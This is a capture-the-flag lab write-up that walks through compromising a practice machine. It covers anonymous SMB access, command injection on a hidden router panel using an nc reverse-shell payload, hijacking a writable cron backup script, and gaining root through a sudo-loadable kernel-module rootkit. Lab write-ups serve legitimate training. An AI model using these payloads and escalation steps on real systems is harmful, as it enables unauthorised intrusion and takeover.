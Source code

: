 
![](https://tryhackme-images.s3.amazonaws.com/room-icons/53d3c28c1af197142685ceb238d5ce3c.png)

## Nmap Scan

```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63 
80/tcp  open  http         syn-ack ttl 63 
139/tcp open  netbios-ssn  syn-ack ttl 63 
445/tcp open  microsoft-ds syn-ack ttl 63 
``` 

## Web Pwn

* On port 80 => there is a web page. 

* SMB has anonymous login there will be a file containg a hidden direcotory in the web page. `/myrouterpanel`

```bash
> smbclient \\\\$VMIP\\public 
Password for [WORKGROUP\trevohack]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 06:24:43 2023
  ..                                  D        0  Mon Apr 17 06:24:05 2023
  msg_for_administrator.txt           N      253  Mon Apr 17 00:29:44 2023

		19947120 blocks of size 1024. 9693196 blocks available
smb: \> get msg_for_administrator.txt
getting file \msg_for_administrator.txt of size 253 as msg_for_administrator.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \>
``` 

* `/myrouterpanel` is vulnerable to RCE `$(nc <lhost> <lport> -e /bin/bash)` will get a reverse shell as `www-data`

## Priv Escalate to Athena

* From there, a `backup.sh` file is available at `/usr/share/backup` which runs recursively if you look at `pspy`.

* `ls -la` shows this

```bash
-rwxr-xr-x   1 www-data athena     310 Sep 16 19:01 backup.sh
``` 

* Injecting a reverse shell may give a shell as `athena`

```bash
> nc -nvlp 9090
Listening on 0.0.0.0 9090
Connection received on 10.10.236.162 41090 
bash: no job control in this shell
athena@routerpanel:/$ whoami
athena
```

## Priv Escalate to root

* On athena `sudo -l -l` reveals that `/mnt/.../secret/venom.ko` can be loaded to the kernel


```bash
athena@routerpanel:/$ sudo -l -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User athena may run the following commands on routerpanel:
Sudoers entry:
    RunAsUsers: root
    Options: !authenticate
    Commands:
	/usr/sbin/insmod /mnt/.../secret/venom.ko
``` 

* USE Ghidra: to reverse the venom.ko file 

![](https://i.postimg.cc/RFR6NDRs/reverse.png)

![](https://i.postimg.cc/qRjqkCJW/reversing.png)

* After reversing, the `give_root` function may work like this `kill -57 <pid>`, later on the `id` command reveals that you have root access.

# Thank You!! 
